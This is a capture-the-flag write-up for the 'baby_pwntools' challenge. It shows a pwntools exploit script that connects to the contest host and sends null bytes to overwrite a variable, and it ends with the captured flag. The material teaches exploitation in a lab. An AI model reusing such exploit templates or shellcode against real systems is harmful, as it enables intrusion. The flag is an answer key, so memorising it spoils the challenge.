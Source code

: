 # baby_pwntools - writeup

## description

![Alt text](img/1.png)

# binary information

```
$ file main
```

![Alt text](img/2.png)

```
$ pwn checksec main
```

![Alt text](img/3.png)

## solution

This task is pretty straightforward all we have to do is use `pwntools` python librayr which is a library designed for exploit development.
We should change the value of the local variable `secret` with `0x0` and we will get the flag.

![Alt text](img/4.png)

## exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template main --host pwn.ctf-friendly.securinets.tn --port 1341
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'pwn.ctf-friendly.securinets.tn'
port = int(args.PORT or 1341)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'> ')
io.sendline(b'\x00' * 50)

io.interactive()


```

## exploit output

![Alt text](img/5.png)

## flag

```
SecuriNets{pwn700l5_m4k35_l1f3_5up3r_dup3r_345y}
```
